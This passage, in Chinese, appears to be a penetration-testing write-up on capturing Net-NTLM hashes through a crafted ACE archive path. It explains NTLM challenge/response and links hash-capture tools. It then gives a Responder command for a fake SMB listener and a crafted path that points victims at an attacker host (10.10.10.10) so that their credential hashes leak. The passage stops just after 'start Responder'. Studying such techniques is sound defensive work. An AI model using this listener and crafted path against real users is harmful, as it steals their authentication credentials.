 - **构造进行 获取受害者的Net-NTLM hash 的攻击方式**

  暂未尝试在SMB服务器上创建文件或文件夹

  先说明相关NTLM tray 的知识

  > [hash知识](https://3gstudent.github.io/3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D/)
  >
  > NTLM hash：指Windows系统下Security Account Manager中保存的用户密码hash
  >
  > Net-NTLM hash: 指网络环境下NTLM认证中的hash
  >
  > NTLM认证采用质询/应答（Challenge/Response）的消息交换模式，流程如下：
  >
  > 1. 客户端向服务器发送一个请求，请求中包含明文的登录用户名。服务器会提前存储登录用户名和对应的密码hash
  > 2. 服务器接收到请求后，生成一个16位的随机数(这个随机数被称为Challenge),明文发送回客户端。使用存储的登录用户密码hash加密Challenge，获得Challenge1
  > 3. 客户端接收到Challenge后，使用登录用户的密码hash对Challenge加密，获得Challenge2(这个结果被称为response)，将response发送给服务器
  > 4. 服务器接收客户端加密后的response，比较Challenge1和response，如果相同，验证成功
  >
  > 常见的Net-NTLM hash 的攻击方式
  >
  > 1. 使用中间人攻击的方式来获取Net-NTLM hash
  > 2. 通过多种方式强制目标客户端向伪造的服务器发起SMB连接，在伪造的服务器上捕获数据包，获得Net-NTLM hash
  >
  > 其他攻击思路:
  >
  > 1. [利用图标文件获取连接文件服务器的NTLMv2 Hash](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%88%A9%E7%94%A8%E5%9B%BE%E6%A0%87%E6%96%87%E4%BB%B6%E8%8E%B7%E5%8F%96%E8%BF%9E%E6%8E%A5%E6%96%87%E4%BB%B6%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%9A%84NTLMv2-Hash/)
  > 2. [利用netsh抓取连接文件服务器的NTLMv2 Hash](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%88%A9%E7%94%A8netsh%E6%8A%93%E5%8F%96%E8%BF%9E%E6%8E%A5%E6%96%87%E4%BB%B6%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%9A%84NTLMv2-Hash/)
  > 3. [通过HTTP协议获得Net-NTLM hash](https://www.secpulse.com/archives/71555.html)
  >
  > 相关工具：
  >
  > [Responder ](https://github.com/lgandx/Responder)
  >
  > [Inveigh](https://github.com/Kevin-Robertson/Inveigh)

  我们可以直接使用Responder 脚本，通过 python Responder.py -I eth0 -rPv  进行伪造的SMB默认监听

  然后在ACE压缩文件中  构造 

  ```
  C:\\10.10.10.10\smb_folder_name\some_folder\some_file.ext
  在漏洞解析后
  \10.10.10.10\smb_folder_name\some_folder\some_file.ext
  实质造成 \伪造服务地址\ 的登录访问，从而造成。
  Net-NTLM hash 的泄露
  ```

  启动Responder
